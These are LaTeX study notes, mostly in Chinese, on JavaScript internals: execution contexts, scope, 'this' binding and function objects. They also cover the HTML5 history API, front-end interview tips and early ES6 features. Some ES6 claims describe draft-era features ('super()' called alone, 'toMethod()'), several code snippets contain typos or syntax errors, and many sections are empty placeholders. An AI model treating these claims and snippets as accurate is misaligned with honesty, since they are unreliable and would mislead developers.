Global Environment是一个唯一的Lexical Environment,在代码执行之前被创建,他的Environment Record是一个Object Environment Record,这个Environment Record的绑定对象是Global Object,他的outer lexical Environment是null。


Execution Context,进入一段代码,就进入了一个execution context。execution context是栈结构,最顶上的execution context是running execution context.所有的操作都是对running execution context的操作。

execution context有三部分,
\begin{itemize}
\item 一个是ThisBinding,用来保存this这个keyword引用的对象;
\item lexicalEnvironment,用来解析标识符引用的,这个在执行过程中引用的lexicalEnvironment可能是会改变的;
\item variableEnvironment,用来保存执行过程中定义的函数和变量,这个在执行过程中是不会改变的。
\end{itemize}
在创建execution context时,lexicalEnvironment和variableEnvironment是引用同一个值。

\subsubsection{什么时候lexicalEnvironment会变化?}
\paragraph{with statement}
with statement会创建一个新ObjectEnvironment,绑定object,outer为原来的lexicalEnvironment。同时将objectEnvironment的bingThis设为true,表示提供this,this就是object,用于调用function的时候提供this。
\begin{JavaScript}
		it('should been add to with variable environment of running execution context', function(){
			var foo = {};

			(function(){
				bar;
			}).should.throw();
			
			with(foo){
				eval('var bar = 200');
			}
			bar.should.be.exactly(200);
			foo.should.eql({});
		});
\end{JavaScript}

此时lexicalEnvironment的envRec添加了一个object Environment record,但是variableEnvironment没有变,所以bar任然是添加到running execution context的variableEnvironment上。等出了with的范围,lexicalEnvironment又还原成和variableEnvironment为同一个对象。
\begin{JavaScript}
		it('should been add to with variable environment of running execution context', function(){
			var foo = {};
			should(bar).be.exactly(undefined);
			with(foo){
				var bar = 200;
			}
			bar.should.be.exactly(200);
			foo.should.eql({});
		});
\end{JavaScript}

\paragraph{catch statment}
catch(e)

会创建一个DeclarativeEnvironment(不同于with,with创建的是ObjectEnvironment), 将他的outer指向running execution context的lexicalEnvironment,将传入的对象绑定到e上。然后将新的DeclarativeEnvironment当做lexicalEnvironment。

返回执行结果,将running execution context的lexicalEnvironment回复成原来的那个。
\subsection{解析标识符}
\paragraph{reference Type} 是用来在规范中说明算法使用的,reference Type由三部分组成,base,name,strict。
对于标识符,base是标识符引用的对象真正所在的那个Environment record;name就是标识符名字,strict看看是否是strict mode。

GetIdentifierReference (lex, name, strict)算法
\begin{enumerate}
\item 如果lex是null, return {base: undefined, name: name, strict: strict}(unresolveReference)
\item let envRec = lex.environmentRecord
\item 如果envRec上有绑定name,return {base: envRec, name: name, strict: strict}
\item 否则let lex = lex.outer, call GetIdentifierReference (lex, name, strict)
\end{enumerate}


\subsection{建立Execution Context}
\paragraph{global execution context}
创建:
\begin{itemize}
\item this: global object
\item lexicalEnvironment: global environment
\item variableEnvironment: global environment
\end{itemize}
\paragraph{eval}
创建:

如果没有calling context,步骤同上;
否则
\begin{itemize}
\item this: this of calling context
\item lexicalEnvironment: lexicalEnvironment of calling context
\item variableEnvironment: variableEnvironment of calling context
\end{itemize}
\begin{JavaScript}
		it('should been add to environment of running execution context', function(){
			(function(){
				eval('var bar = 100');
				bar.should.be.exactly(100);
			})();
		});
\end{JavaScript}
如果是在strict模式下(调用代码或者eval代码是strict模式),生成新的DeclarativeEnvironment,outer environment指向上面定义的lexicalEnvironment。将lexicalEnvironment和variableEnvironment设定为新生成的DeclarativeEnvironment。
\begin{JavaScript}
		it('should use new declarative environment in strict mode', function(){
			(function(){
				'use strict';
				var bar = 200;
				eval('var bar = 100');
				bar.should.be.exactly(200);
			})();
		});

		it('should use new declarative environment in strict mode 2', function(){
			(function(){
				var bar = 200;
				eval('"use strict"; var bar = 100');
				bar.should.be.exactly(200);
			})();
		});
\end{JavaScript}
\paragraph{function}
创建:

调用的代码会传入this和参数。对于strict code,this就等于传入的this。

否则,如果传入的this是null或者undefined,this设定为global object。
如果this是基本类型,就转换为object。

新建DeclarativeEnvironment,将function的\lstinline![[Scope]]!作为outer Environment。将execution context的lexicalEnvironment和variableEnvironment设定为新生成的DeclarativeEnvironment。

之后调用\lstinline![[Code]]!的代码。

\begin{JavaScript}[this是object]
		it('this should be object', function(){
			function foo(){
				should(typeof this).be.exactly('object');
			}
			foo.call(1);
		});
\end{JavaScript}

\begin{JavaScript}[对于undefined this会被指定为Global object]
		it('this should be global object if null or undefined been treat as this', function(){
			function foo(){
				this.should.be.exactly(global);
			}

			foo.call(null);
			foo.call(undefined);
		});

		it('this should be global object if null or undefined been treat as this', function(){
			function foo(){
				this.should.be.exactly(global);
			}

			foo();
		});
\end{JavaScript}

当标识符解析时,lexicalEnvironment不会生成this,因为实现是中对于Lexical Environment Record的返回的this是undefined。

\section{函数}
函数也是对象,可以使用对象的地方就可以使用函数。

\subsection{函数申明和函数表达式}	
通过函数声明和函数表达是来创建Function Object,

两者不同之处在于函数声明白创建的function object的\lstinline![[Scope]]!保存的是running execution context的variableEnvironment,

本来我想写个例子,但是感觉实现不是这么实现的。下面可以访问到处于lexicalEnvironment链上的bar
\begin{JavaScript}
		it('does not work as expect', function(){
			var foo = {bar: 200};
			with(foo) {
				eval('function func(){return bar;}');
			}
			func().should.be.exactly(200);
		});
\end{JavaScript}
看上去,下面的代码可以说明,但是实际上function declaration是在执行代码之前就已经执行了。
\begin{JavaScript}
		it('[[Scope]] should bind with variableEnvironment', function(){
			// cannot prove
			var foo = {bar: 100};

			with(foo) {
				function func() {
					(function(){
						bar;
					}).should.throw();
				}
			}
			func();
		});
\end{JavaScript}

匿名函数表达式创建的function object的\lstinline![[Scope]]!保存的是running execution context的lexicalEnvironment。
\begin{JavaScript}
		it('[[Scope]] should bind with lexicalEnvironment', function(){

			try {
				throw {bar: 100};
			} catch(e) {
				var foo = function(){
					return e;
				}
			}

			should(foo()).be.eql({bar: 100});
		});
\end{JavaScript}

带名字的函数表达式创建的一个DeclarativeEnvironment,将running execution context的lexicalEnvironment,同时在新创建的DeclarativeEnvironment上绑定这个function object,将这个新创建DeclarativeEnvironment保存在function object的\lstinline![[Scope]]!上。(记得此处IE不是这么实现的)。

\begin{JavaScript}
		it('[[Scope]] should bind with a new DeclarativeEnvironment which outer is lexicalEnvironment of running execution context', function(){

			try {
				throw {bar: 100};
			} catch(e) {
				var foo = function e() {
					return e;
				}
				e.should.eql({bar: 100});
			}
			should(foo()).be.exactly(foo);
		});	
\end{JavaScript}


\subsection{函数对象的创建过程}
\begin{enumerate}
\item 创建ECMAScript Object;
\item \lstinline![[Class]]!设定为"function"
\item \lstinline![[Prototype]]!(可以通过\lstinline!__proto__!来访问)设定为Function.prototype。
\item \lstinline![[Scope]]!设定为上面所描述的。
\item 定义length属性
\item 定义prototype属性,为object对象,prototype上定义constructor属性
\end{enumerate}
\begin{JavaScript}[此处是函数表达式]
		it('[[Class]] is set to function', function(){
			(typeof function(){}).should.be.exactly('function');
		});
\end{JavaScript}

\begin{JavaScript}[所以 func instanceof Function 会返回true]
		it('__proto__ is set to Function.prototype', function(){
			(function(){}).__proto__.should.be.exactly(Function.prototype);
		});
\end{JavaScript}

\begin{JavaScript}
		it('length is the number of parameters', function(){
			(function(a, b, c, d, e, f){}).length.should.be.exactly(6);
		});
\end{JavaScript}

\begin{JavaScript}
		it('default prototype should be an object with constructor property', function(){
			function foo(){}
			foo.prototype.should.eql({constructor: foo});
		});
\end{JavaScript}

\subsection{函数作为构造函数}
使用new关键字来调用,对于无参数的构造函数Foo,new Foo()和new Foo是相同的效果。	
\begin{enumerate}
\item 创建对象;
\item \lstinline![[Class]]!设定为object;
\item 取得构造函数的prototype,如果他不是object,则取得Object.prototype,将他赋值给\lstinline![[Prototype]]!
\item 将创建的对象作为this来调用构造函数,如果返回值不是object,返回创建的对象,如果返回的是object,返回返回的对象。
\end{enumerate}
\begin{JavaScript}[作为构造函数生成对象的过程]
		it('steps for new operator', function(){
			function Foo(){
				this.bar = 200;
			}

			var newObj;
			var foo = {};
			foo.__proto__ = Foo.prototype;
			var result = Foo.call(foo);
			if(result === undefined || result === null || typeof result == 'number' || typeof result =='string' || typeof result == 'boolean') {
				newObj = foo;
			} else {
				newObj = result;
			}
\end{JavaScript}

\begin{JavaScript}[prototype是基本类型时,会使用Object.prototype代替]
		it('__proto__ is set to Object.prototyp if constructor.prototype is primitive or null', function(){
			function Foo(){}
			Foo.prototype = 1;

			var foo = new Foo;
			foo.__proto__.should.be.exactly(Object.prototype);
		});
\end{JavaScript}

\subsection{调用函数的过程}
\subsubsection{函数被调用,关注this的值}
当解析的reference type的的base是对象,这个对象就被当做this;

当reference type的base是Environment Record,则看看他是不是提供this值,如果提供就传入,否则传入undefined

当reference type的base是undefined时,this传入undefined(在函数执行过程中,undefined又会被global object代替)。

然后按上面提到的方式来创建execution context。

说起来,this有这样几种取值:
\begin{itemize}
\item 使用expresson[expression]或者identifies.identifies的格式来调用函数的时候,this是前面那部分的值;
\item 使用变量名的方式来调用的时候,this就是指向global object;
\item func.call,func.apply的方式调用的时候,第一个参数指定this,如果这个时候传入的是undefined或者null,则this是global object,如果传入的是基本类型,则this是对应的包装类型
\item 在with block中,使用变量名的方式来调用,如果这个变量是绑定在with传入的对象上时,this就是with传入的对象。因为:此处的LexicalEnvironment被替换成Object Environment Record,绑定了foo。bar得到的reference type是{base:objEnv(foo), name:bar, strict:false}。objEnv提供的this是foo,所以调用的时候,this被绑定为foo
\end{itemize}

\begin{JavaScript}
	describe("#this", function(){
		it('dot expression or square bracket', function(){
			var foo = {
				bar: function(){ return this;}
			}
			foo.bar().should.be.exactly(foo);
			foo['bar']().should.be.exactly(foo);
		});

		it('variable', function(){
			var foo = function(){return this;};
			foo().should.be.exactly(global);
		});

		it('variable in with', function(){
			var foo = {
				bar: function(){return this;}
			}
			with(foo){
				bar().should.be.exactly(foo);
			}
		});

		it('call, apply', function(){
			function foo(){return this;}
			var bar = {};
			
			foo.call(bar).should.be.exactly(bar);
			foo.apply(bar).should.be.exactly(bar);

			var res = foo.call(1);
			should(res).be.Object;
			(res == 1).should.be.true;

			foo.call(undefined).should.be.exactly(global);
		});
	});
\end{JavaScript}


\subsubsection{函数代码执行}
下面的步骤是将标示符绑定到当前的execution context的VariableEnvironment上。
\begin{enumerate}
\item 先创建arguments对象,同时在variableEnvironment上定义参数列表中的参数,参数列表中如果有重复的变量名,后面的会覆盖前面的值;
\item 绑定函数申明,后声明的覆盖前面申明的函数;
\item 如果没有定义arguments的函数,绑定第一步创建的arguments对象;
\item 绑定不存在的变量申明,值为undefined。
\end{enumerate}

\begin{JavaScript}
	describe('#arguments', function(){
		it('last should override first if the has same name', function(){
			function foo(a, b, c, a){return a;}
			foo(1,2,3,4).should.be.exactly(4);
		});

		it('arguments should be replace by function', function(){
			function foo(){
				arguments.should.be.type('function');
				function arguments(){}
				var arguments = {};
				arguments.should.eql({});
			}
			foo();
		});

		it('arguments should exist', function(){
			function foo(){
				arguments.should.be.arguments;
				var arguments= {};
				arguments.should.eql({});
			}
			foo();
		});

		it('should be', function(){
			function foo(){

				bar.should.be.type('function');

				var bar = 10;

				bar.should.be.exactly(10);

				function bar(){}

				bar.should.be.exactly(10);

			}

			foo();
		});

		it('should be', function(){
			function foo() {
				should(bar).be.exactly(undefined);
				var bar = 10;
				bar.should.be.exactly(10);
			}

			foo();
		});
	});
\end{JavaScript}
\subsubsection{变量的赋值}
通过GetIdentifierReference可以看到,找不到变量定义,reference type的base就是undefined,这个时候就会在global object上定义一个对应的property。


%\chapter{JavaScript in Browser}



\section{History}

\begin{itemize}
\item he new parts in HTML5 include a way to add entries to the browser history, 
\item to visibly change the URL in the browser location bar (without triggering a page refresh), 
\item and an event that fires when those entries are removed from the stack by the user pressing the browser’s back button.
\end{itemize}



The HTML5 history API is actually designed to ensure that URLs continue to be useful in script-heavy web applications. 


如果改变URL,那么浏览器会刷新页面,即使新访问的页面和当前页面基本相同,浏览器还是会重新下载所有的东西。


HTML5 History API可以用来代替刷新整个页面,可以使用脚本来下载一部分页面。假设有A,B两个页面,基本相同,只有10\%的内容不一样,如果用户从A页面跳转到页面B.可以中断请求,并且

\begin{itemize}
\item 下载那10\%不同的内容(可能使用XMLHttpRequest来完成)。This will require some server-side changes to your web application. You will need to write code to return just the 10\% of page B that is different from page A. This can be a hidden URL or query parameter that the end user would not normally see. 

\item 交换改变的内容(使用innerHTML或者DOM methods)。You may also need to reset any event handlers on elements within the swapped-in content. 

\item 修改浏览器的地址栏到页面B。 using a particular method from the HTML5 history API that I’ll show you in a moment. 
\end{itemize}



\begin{JavaScript}
history.pushState(null, null, link.href);
\end{JavaScript}

\begin{JavaScript}
\item state 任何JSON格式的对象,他会被传递给popstate event hander.
\item title 任何string, 这个参数当前没有被主流的浏览器使用,如果要使用,可以再state中设定好,然后在popstate回调中手动设定。
\item url ,任何url,想要在地址栏显示url。
\end{JavaScript}

调用\lstinline$history.pushState$会马上改变地址栏的url。

在这之后,还需要fake向

\begin{JavaScript}
window.addEventListener("popstate", function(e) {
    swapPhoto(location.pathname);
});
\end{JavaScript}

\section{面试}

\subsection{浏览器兼容性问题}
* png24位的图片在iE6浏览器上出现背景,解决方案是做成PNG8.也可以引用一段脚本处理.

* 浏览器默认的margin和padding不同。解决方案是加一个全局的*{margin:0;padding:0;}来统一。

* IE6双边距bug:块属性标签float后,又有横行的margin情况下,在ie6显示margin比设置的大。 

* 浮动ie产生的双倍距离(IE6双边距问题:在IE6下,如果对元素设置了浮动,同时又设置了margin-left或margin-right,margin值会加倍。)
  #box{ float:left; width:10px; margin:0 0 0 100px;} 

 这种情况之下IE会产生20px的距离,解决方案是在float的标签样式控制中加入 ——_display:inline;将其转化为行内属性。(_这个符号只有ie6会识别)

*  渐进识别的方式,从总体中逐渐排除局部。 

  首先,巧妙的使用“\9”这一标记,将IE游览器从所有情况中分离出来。 
  接着,再次使用“+”将IE8和IE7、IE6分离开来,这样IE8已经独立识别。

  css
      .bb{
       background-color:#f1ee18;/*所有识别*/
      .background-color:#00deff\9; /*IE6、7、8识别*/
      +background-color:#a200ff;/*IE6、7识别*/
      _background-color:#1e0bd1;/*IE6识别*/ 
      } 

*  IE下,可以使用获取常规属性的方法来获取自定义属性,
   也可以使用getAttribute()获取自定义属性;
   Firefox下,只能使用getAttribute()获取自定义属性. 
   解决方法:统一通过getAttribute()获取自定义属性.

* IE下,event对象有x,y属性,但是没有pageX,pageY属性; 
  Firefox下,event对象有pageX,pageY属性,但是没有x,y属性.

* 解决方法:(条件注释)缺点是在IE浏览器下可能会增加额外的HTTP请求数。

* Chrome 中文界面下默认会将小于 12px 的文本强制按照 12px 显示, 
  可通过加入 CSS 属性 -webkit-text-size-adjust: none; 解决.

* 超链接访问过后hover样式就不出现了 被点击访问过的超链接样式不在具有hover和active了解决方法是改变CSS属性的排列顺序:
L-V-H-A :  a:link {} a:visited {} a:hover {} a:active {}

* 怪异模式问题:漏写DTD声明,Firefox仍然会按照标准模式来解析网页,但在IE中会触发怪异模式。为避免怪异模式给我们带来不必要的麻烦,最好养成书写DTD声明的好习惯。现在可以使用[html5](http://www.w3.org/TR/html5/single-page.html)推荐的写法:`<doctype html>`

* 上下margin重合问题
ie和ff都存在,相邻的两个div的margin-left和margin-right不会重合,但是margin-top和margin-bottom却会发生重合。
解决方法,养成良好的代码编写习惯,同时采用margin-top或者同时采用margin-bottom。
* ie6对png图片格式支持不好(引用一段脚本处理)


\subsection{减少加载时间}
 1.优化图片 
 
 2.图像格式的选择(GIF:提供的颜色较少,可用在一些对颜色要求不高的地方)
  
 3.优化CSS(压缩合并css,如margin-top,margin-left...) 
 
 4.网址后加斜杠(如www.campr.com/目录,会判断这个“目录是什么文件类型,或者是目录。) 
 
 5.标明高度和宽度(如果浏览器没有找到这两个参数,它需要一边下载图片一边计算大小,如果图片很多,浏览器需要不断地调整页面。这不但影响速度,也影响浏览体验。 
 
当浏览器知道了高度和宽度参数后,即使图片暂时无法显示,页面上也会腾出图片的空位,然后继续加载后面的内容。从而加载时间快了,浏览体验也更好了。) 

6.减少http请求(合并文件,合并图片)。


期待的解决方案包括:

 文件合并
 
 文件最小化/文件压缩
 
 使用 CDN 托管
 
 缓存的使用(多个域名来提供缓存)
 
 其他
 
 
 \subsection{你都使用哪些工具来测试代码的性能?}

Profiler, JSPerf(http://jsperf.com/nexttick-vs-setzerotimeout-vs-settimeout), Dromaeo



\subsection{HTTP缓存相关头}


\subsection{推送}

\subsection{Cookies}

\subsection{•}
\chapter{ECMA 6}

\section{Basic}

\subsection{Better Unicode Support}

\subsubsection{code point}

\subsection{new methods for string}

\subsubsection{Object.is}

\subsection{Regex}

\subsubsection{u}

\subsubsection{y}

\subsection{let}

\subsubsection{var}

\subsubsection{let in block scope}

\subsubsection{let in loop}

\subsubsection{let Vs. var}

\subsubsection{Global let declaration}

\subsubsection{constant declarations}
\begin{itemize}
\item Constants are also block-level declarations, similar to 'let'.
\item Constants are destroyed once execution flow out of the block
\item declarations are hoisted to the top of block.
\end{itemize}

\subsubsection{caution about const}

\subsubsection{Number}


\section{Function}


\subsection{Default Parameters}

\begin{JavaScript}[ecma 5实现默认参数的方式]
function makeRequest(url, timeout, callback) {

    timeout = timeout || 2000;
    callback = callback || function() {};

    // the rest of the function

}
\end{JavaScript}

此处一个小小的问题是如果timeout是0也会导致timeout被替换成2000.另外一个方式是通过arguments.length来判断参数的个数。

\begin{JavaScript}[ecma 6的方式]
function makeRequest(url, timeout = 2000, callback = function() {}) {

    // the rest of the function

}
\end{JavaScript}

设置默认参数不需要一定是在方法的最后
\begin{JavaScript}[这样也是可以的]
function makeRequest(url, timeout = 2000, callback) {

    // the rest of the function

}
\end{JavaScript}

这个时候,要使用默认参数,可以只带一个参数,或者第二个参数显示的指定为undefined
\begin{JavaScript}[第一和第二个调用使用默认参数,第三个不使用默认参数]
// uses default timeout
makeRequest("/foo", undefined, function(body) {
    doSomething(body);
});

// uses default timeout
makeRequest("/foo");

// doesn't use default timeout
makeRequest("/foo", null, function(body) {
    doSomething(body);
});
\end{JavaScript}

哈哈,默认参数不是必须是基本类型,甚至可以是返回函数的一个函数调用。
\begin{JavaScript}[函数调用返回函数的默认值]
function getCallback() {
    return function() {
        // some code
    };
}

function makeRequest(url, timeout = 2000, callback = getCallback()) {

    // the rest of the function

}
\end{JavaScript}

每次当最后一个参数不传入的时候,getCallback都将会被调用一次。

\begin{JavaScript}
// 此处应该加代码来证明这一点。
\end{JavaScript}

\subsection{Rest parameters}

Can't have a named parameter after rest parameters.

\subsection{Destructured Parameters}
\begin{JavaScript}
function setCookie(name, value, options) {

    options = options || {};

    var secure = options.secure,
        path = options.path,
        domain = options.domain,
        expires = options.expires;

    // ...
}

setCookie("type", "js", {
    secure: true,
    expires: 60000
});
\end{JavaScript}
上面的代码采用Destructured Parameters的话,是下面这样的:
\begin{JavaScript}
function setCookie(name, value, { secure, path, domain, expires }) {

    // ...
}

setCookie("type", "js", {
    secure: true,
    expires: 60000
});
\end{JavaScript}

One quirk of this pattern is that the destructured parameters throw an error when the argument isn't provided.
因为编译器实际上是产生下面这样的代码
\begin{JavaScript}
function setCookie(name, value, options) {

    var { secure, path, domain, expires } = options;

    // ...
}
\end{JavaScript} 

Since destructuring assignment throws an error when the right side expression evaluates to `null` or `undefined`, the same is true when the third argument isn't passed.

可以通过提供一个默认参数来避免上面的情况
\begin{JavaScript}
function setCookie(name, value, { secure, path, domain, expires } = {}) {

    // ...
}
\end{JavaScript}

It's recommended to always provide the default value for destructured parameters to avoid all errors that are unique to their usage.


\subparagraph{The Spread Operator}

\begin{JavaScript}
let values = [25, 50, 75, 100]

// equivalent to
// console.log(Math.max(25, 50, 75, 100));
console.log(Math.max(...values));           // 100
\end{JavaScript}

可以和其他参数混合使用
\begin{JavaScript}
let values = [-25, -50, -75, -100]

console.log(Math.max(...values, 0));        // 0
\end{JavaScript}

\subsection{name property}
每个function都有一个name property。会在函数创建时生成。他的writable属性是false.

\subsection{Block-Level Functions}

\begin{JavaScript}[ecma 5 stric mode下,在block中定义函数会抛错]
"use strict";

if (true) {

    // Throws a syntax error in ES5, not so in ES6
    function doSomething() {
        // ...
    }
}
\end{JavaScript}

因为各个浏览器在非strict模式下,定义函数的行为不统一,应该尽量避免在block中申明函数,而是采用function expression.

而在ecma 6中,Block-Level function是合法的。
\begin{JavaScript}[ecma6中]
"use strict";

if (true) {

    console.log(typeof doSomething);        // "function"

    function doSomething() {
        // ...
    }

    doSomething();
}

console.log(typeof doSomething);            // "undefined"
\end{JavaScript}

这个时候,块级别的函数申明会被提升到块的开头。而在块结束之后,对应的变量就不存在了。 和let有一点类似,唯一的不同是let不会将定义提升到代码块的最开始。

\begin{JavaScript}
"use strict";

if (true) {

    console.log(typeof doSomething);        // "function"

    function doSomething() {
        // ...
    }

    doSomething();
}

console.log(typeof doSomething);            // "undefined"
\end{JavaScript}

\begin{JavaScript}[let不会提升定义到代码块的最前面,所以下面是会报错的]
"use strict";

if (true) {

    console.log(typeof doSomething);        // throws error

    let doSomething = function () {
        // ...
    }

    doSomething();
}

console.log(typeof doSomething);
\end{JavaScript}

在非严格模式下,函数声明会被提升到全局或者包含函数中。

\begin{JavaScript}
// ECMAScript 6 behavior
if (true) {

    console.log(typeof doSomething);        // "function"

    function doSomething() {
        // ...
    }

    doSomething();
}

console.log(typeof doSomething);            // "function"
\end{JavaScript}


\section{Object}

\subsection{Object literal}

\subsubsection{Property初始化的简写}

\begin{JavaScript}[ecma5的写法,重复输入]
function createPerson(name, age) {
    return {
        name: name,
        age: age
    };
}
\end{JavaScript}

\begin{JavaScript}[ecma6的写法,省略重复输入]
function createPerson(name, age) {
    return {
        name,
        age
    };
}
\end{JavaScript}
如果property字面量只有一个名字,JavaScript引擎会查找包含他的scope来查找名字相同的变量,如果找到了,就将变量的值赋予这个对象对应的属性名。

\subsubsection{Method初始化的简写}
\begin{JavaScript}[ecma5]
var person = {
    name: "Nicholas",
    sayName: function() {
        console.log(this.name);
    }
};
\end{JavaScript} 

\begin{JavaScript}[ecma6]
var person = {
    name: "Nicholas",
    sayName() {
        console.log(this.name);
    }
};
\end{JavaScript}

\subsubsection{Computed Property Names}
在ECMA5中,可以使用引号将带空格的字面常量定义为Property名,但是如果是变量引用的字面常量的话,就没有办法在literal Object中定义了。
\begin{JavaScript}
var person = {
    "first name": "Nicholas"
};

console.log(person["first name"]);   
\end{JavaScript}

\begin{JavaScript}[ecma6中,可以引用变量中的带空白字符串]
var lastName = "last name";

var person = {
    "first name": "Nicholas",
    [lastName]: "Zakas"
};

console.log(person["first name"]);      // "Nicholas"
console.log(person[lastName]);          // "Zakas"
\end{JavaScript}
 
\begin{JavaScript}[ecma6]
var suffix = " name";

var person = {
    ["first" + suffix]: "Nicholas",
    ["last" + suffix]: "Zakas"
};

console.log(person["first name"]);      // "Nicholas"
console.log(person["last name"]);       // "Zakas"
\end{JavaScript}
 
所有可以放入方括号的符号都可以放在Computed Property Names中。

\subsubsection{get set}
这个ECMA5中就可以使用,只是我不知道而已
\begin{JavaScript}
var foo = {
	set bar(value){
		this.x = value;
	},
	get bar() {
		return this.x;
	}
};
foo.bar = 100;

console.log(foo.bar); // 100
console.log(foo.x);   // 100

\end{JavaScript}
 

\subsection{Object.assign()}

\subsubsection{mixins} 

\begin{JavaScript}
unction mixin(receiver, supplier) {
    Object.keys(supplier).forEach(function(key) {
        receiver[key] = supplier[key];
    });

    return receiver;
}
\end{JavaScript}

是的receiver不通过继承来获取新的行为。


ECMA6添加的Object.assign()方法就是实现mixin的。不同之处是通过名字来反映了真正发生了什么操作,因为是通过=号来拷贝属性的,所以accessor properties没办法被当做accessor属性拷贝过去。

\begin{JavaScript}
//此处应该有代码
\end{JavaScript}

\subsubsection{Duplicate Object Literal Properties}
在ECMA5的strict模式下,如果有重复的property名字的时候,会抛出异常。而这一行为在ECMA6的strict模式下被移除掉了。

\subsubsection{改变Prototype}
ECMA5中添加了方法来获取Prototype,Object.getPrototypeOf(),而在ECMA6中,与之对应的Object.setPrototypeOf()被添加了进来。
\begin{JavaScript}
//此处应该有代码
\end{JavaScript}

%In ECMAScript 6 engines, `Object.prototype.__proto__` is defined as an accessor property whose `get` method calls `Object.getPrototypeOf()` and whose `set` method calls `Object.setPrototypeOf()`. This means that there is no real difference between using `__proto__` and the other methods except that `__proto__` allows you to set the prototype of an object literal directly.

\begin{JavaScript}
//此处应该有代码
\end{JavaScript}

对于\lstinline$__proto__$来说,有一些特别之处
\begin{itemize}
\item 只能在字面对象定义中出现一次\lstinline$__proto__$属性,出现两次将报错。
\item 使用Computed form \lstinline$['__proto__']$的话,定义的是一般的property。不会影响对象的\lstinline$[[prototype]]$。(这一点是为什么需要查文档来看看原因是什么)
\end{itemize}

\subsection{super 关键字}
通过super来引用对象的\lstinline$[[prototype]]$。
\begin{JavaScript}
let person = {
    getGreeting() {
        return "Hello";
    }
};

let dog = {
    getGreeting() {
        return "Woof";
    }
};

// prototype is person
let friend = {
    __proto__: person,
    getGreeting() {
        // same as this.__proto__.getGreeting.call(this)
        return Object.getPrototypeOf(this).getGreeting.call(this) + ", hi!";
    }
};

console.log(friend.getGreeting());                      // "Hello, hi!"
console.log(Object.getPrototypeOf(friend) === person);  // true
console.log(friend.__proto__ === person);               // true

// set prototype to dog
friend.__proto__ = dog;
console.log(friend.getGreeting());                      // "Woof, hi!"
console.log(friend.__proto__ === dog);                  // true
console.log(Object.getPrototypeOf(friend) === dog);     // true
\end{JavaScript}

在这个代码中,需要注意的是通过\lstinline$Object.getPrototypeOf()$来获取\lstinline$[[prototype]]$,通过\lstinline$call(this)$来保证方法执行时this能够被正确的设定,这个时候的this是当前对象而不是他的原型。

\begin{JavaScript}[ecma6中简单的使用super就可以达到上面的效果了]
let friend = {
    __proto__: person,
    getGreeting() {
        // same as Object.getPrototypeOf(this).getGreeting.call(this)
        // or this.__proto__.getGreeting.call(this)
        return super.getGreeting() + ", hi!";
    }
};
\end{JavaScript}

调用\lstinline$super.getGreeting.call(this)$的效果和调用\lstinline$Object.getPrototypeOf(this).getGreeting.call(this)$与\lstinline$this.__proto__.getGreeting.call(this)$的效果是一样的. 

如果调用的方法的名字是一样的,那么可以直接使用\lstinline$super()$来调用。

\begin{JavaScript}
let friend = {
    __proto__: person,
    getGreeting() {
        // same as Object.getPrototypeOf(this).getGreeting.call(this)
        // or this.__proto__.getGreeting.call(this)
        // or super.getGreeting()
        return super() + ", hi!";
    }
};
\end{JavaScript}

实际效果是\lstinline$super()$使用containing function的name属性作为名字来查找正确的方法。

\begin{JavaScript}
//此处应该有代码来说明上面的观点.
\end{JavaScript}

super只能在function内使用,而不能在全局范围使用.


\subsection{Method}

ECMA6之前是没有method的正式概念的,method就是对象的属性的值是一个function。而在ECMA6中正式定义了method,method就是有\lstinline$[[HomeObject]]$的function,这个属性的值是method的拥有者。

\begin{JavaScript}
let person = {

    // method
    getGreeting() {
        return "Hello";
    }
};

// not a method
function shareGreeting() {
    return "Hi!";
}
\end{JavaScript}

\lstinline$[[HomeObject]]$和super有着密切的关系,super使用\lstinline$[[HomeObject]]$来决定怎么做,第一步,对\lstinline$[[HomeObject]]$调用\lstinline$Object.getPrototypeOf()$来获取原型的引用,接着,使用executing function的名字来找到对应的要被执行的function.接着设定this并执行method。

\begin{JavaScript}
let person = {
    getGreeting() {
        return "Hello";
    }
};

// prototype is person
let friend = {
    __proto__: person,
    getGreeting() {
        return super() + ", hi!";
    }
};

function getGlobalGreeting() {
    return super.getGreeting() + ", yo!";
}

console.log(friend.getGreeting());  // "Hello, hi!"

getGlobalGreeting();                      // throws error
\end{JavaScript}

\begin{JavaScript}
//这里需要大量代码来说明上面的问题。
\end{JavaScript}

每个function都有一个\lstinline$toMethod()$的方法来生成一个相同版本的function,他的\lstinline$[[HomeObject]]$被指定为新的对象。
(此处需要读文档,看看是是不是新创建了一个function,他的\lstinline$[[Code]]$和原来function一样,\lstinline$[[Scope]]$和原来的function一样,这样就保证了代码和Scope Chain是一样的。)
\begin{JavaScript}
// 也许需要代码来说明
\end{JavaScript}

这里可以看到this和super有一个很大的区别,this是在运行时决定他的取值,而super是在function被创建的时候就决定好了。\lstinline$[[HomeObject]]$在创建之后就不能被改变了。所以对于super的使用,如果function被传递来传递去的话,很难搞清楚这个是super到底是什么值了。因此最好不要再对象被创建之后在上面删除或者添加方法。如果一定要这么做,可以使用\lstinline$toMethod()$方法来指定新的\lstinline$[[HomeObject]]$.

\begin{JavaScript}
//需不需要代码带说明一下呢?
\end{JavaScript}

\section{Symbol}


\section{Collections}

\subsection{Set}

\begin{JavaScript}

var set = new Set([1,2,3,4,5]);

set.add(1);

set.add("1");

set.delete(1);

set.has("1");

var array = Array.from(set);

\end{JavaScript}


\subsection{Map}

\begin{JavaScript}

    // 二维数组作为参数
    var map = new Map([["name", "Nicholas"], ["title", "Author"]]);

    for (let key of map.keys()) {
        console.log("Key: %s", key);
    }

    for (let value of map.values()) {
        console.log("Value: %s", value);
    }

    for (let item of map.entries()) {
        console.log("Key: %s, Value: %s", item[0], item[1]);
    }

    // same as using map.entries()
    for (let item of map) {
        console.log("Key: %s, Value: %s", item[0], item[1]);
    }
    
    map.forEach(function(value, key, map)) {
        console.log("Key: %s, Value: %s", key, value);
    });
    
    // 可以绑定this
    var reporter = {
        report: function(key, value) {
            console.log("Key: %s, Value: %s", key, value);
        }
    };

    map.forEach(function(value, key, map) {
        this.report(key, value);
    }, reporter);

\end{JavaScript}


\begin{JavaScript}[如果使用对象,需要过滤掉prototype上的属性以及method]
    for (let key in object) {

        // make sure it's not from the prototype or a function!
        if (object.hasOwnProperty(key) && typeof object[key] !== "function") {
            console.log("Key: %s, Value: %s", key, object[key]);
        }

    }
\end{JavaScript}


\subsection{Weakmaps}

A weakmap holds only a weak reference to a key, which means the reference inside of the weakmap doesn't prevent garbage collection of that object. When the object is destroyed by the garbage collector, the weakmap automatically removes the key-value pair identified by that object. 

\begin{JavaScript}

\end{JavaScript}


\chapter{JavaScript环境}

\renewcommand\lstlistingname{Libraries}

